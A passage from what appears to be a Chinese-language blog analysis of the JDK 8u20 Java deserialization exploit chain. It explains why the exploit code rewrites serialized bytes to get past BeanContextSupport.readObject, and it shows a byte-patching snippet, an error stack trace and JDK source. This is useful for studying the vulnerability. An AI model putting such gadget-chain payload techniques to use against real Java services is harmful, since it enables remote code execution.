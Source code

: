 这里使用的解决方法是将`AnnotationInvocationHandler`的`classDescFlags`添加了`SC_WRITE_METHOD`标志，这样就不会进入if判断中，一开始就不会将`defaultDataEnd=True`，也就解决了这个问题，使得`ois.readInt()`能够有机会读取到Int。
### 困惑2
exp3里有这么一段:
```
        // 运行到BeanContextSupport.deserialize()中此时ois.readInt()时面对的序列化数据可能是个TC_OBJECT或者TC_NULL，为了让攻击顺利，必须让ois.readInt()面对的序列化数据是TC_BLOCKDATA包裹的整型变量0
        // 0x70, 0x77, 0x04, 0x00, 0x00, 0x00, 0x00, 0x78 ->
        // 0x77, 0x04, 0x00, 0x00, 0x00, 0x00, 0x70, 0x78
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 0x70 && bytes[i+1] == 0x77 && bytes[i+2] == 0x04 && bytes[i+3] == 0x00 && bytes[i + 4] == 0x00 && bytes[i+5] == 0x00 && bytes[i+6] == 0x00 && bytes[i+7] == 0x78){
                System.out.println("[+] Change 0x70, 0x77, 0x04, 0x00, 0x00, 0x00, 0x00, 0x78 -> 0x77, 0x04, 0x00, 0x00, 0x00, 0x00, 0x70, 0x78");
                bytes[i] = 0x77;
                bytes[i+1] = 0x04;
                bytes[i+2] = 0x00;
                bytes[i+6] = 0x70;
                break;
            }
        }
```
为什么要这么修改字节码呢？我们可以试试注释这段代码再运行，发现会出现报错:
```
at java.io.DataInputStream.readInt(DataInputStream.java:392)
at java.io.ObjectInputStream$BlockDataInputStream.readInt(ObjectInputStream.java:2823)
at java.io.ObjectInputStream.readInt(ObjectInputStream.java:972)
at java.beans.beancontext.BeanContextSupport.deserialize(BeanContextSupport.java:931)
at java.beans.beancontext.BeanContextSupport.readObject(BeanContextSupport.java:1084)
at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:483)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1017)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1896)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at java.util.HashSet.readObject(HashSet.java:333)
at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:483)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1017)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1896)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at jdk8u20EXP2.main(jdk8u20EXP2.java:128)

Process finished with exit code 1
```
我们跟进`BeanContextSupport#readObject`看看，其代码如下:
```

private synchronized void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {

    synchronized(BeanContext.globalHierarchyLock) {
        ois.defaultReadObject();

        initialize();

        bcsPreDeserializationHook(ois);
```
